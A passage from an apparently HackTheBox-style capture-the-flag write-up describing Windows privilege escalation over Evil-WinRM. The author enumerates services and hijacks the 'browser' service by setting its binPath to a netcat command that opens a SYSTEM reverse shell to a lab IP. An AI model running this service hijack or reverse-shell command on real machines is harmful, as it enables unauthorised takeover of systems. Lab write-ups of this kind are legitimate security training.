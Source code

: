 ```
*Evil-WinRM* PS C:\> sc.exe query type= service
[SC] OpenSCManager FAILED 5:

Access is denied.
```

I couldn't run WinPEAS on the machine, so I used my own Windows host to find a service that we could edit, and this took a while.&#x20;

We can find all the services using `reg query`:

```
*Evil-WinRM* PS C:\Users\jorden\Documents> reg query HKLM\system\currentcontrolset\services

HKEY_LOCAL_MACHINE\system\currentcontrolset\services\.NET CLR Data
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\.NET CLR Networking
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\.NET CLR Networking 4.0.0.0
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\.NET Data Provider for Oracle
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\.NET Data Provider for SqlServer
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\.NET Memory Cache 4.0
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\.NETFramework
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\1394ohci
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\3ware
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ACPI
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AcpiDev
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\acpiex
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\acpipagr
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AcpiPmi
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\acpitime
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ADOVMPPackage
HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ADP80XX
<TRUNCATED>
```

Within this huge list, there were loads of services that weren't valid to use because they were already running or I could not edit the `binPath` variable.&#x20;

> Used 0xdf's writeup because I got lazy finding the service lol.&#x20;

The first service I noticed were `browser` and `bowser`. I just thought the latter was funny, but the former was one that we could abuse.  First, we just need to change the `binpath` and then run  `start` to start it again. This gives us a `root` shell.&#x20;

```
*Evil-WinRM* PS C:\Windows\Tasks> sc.exe config browser binPath= "C:\Windows\Tasks\nc64.exe -e cmd.exe 10.10.14.42 443"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Windows\Tasks> sc.exe start browser
```

<figure><img src="../../../.gitbook/assets/image (14) (2) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
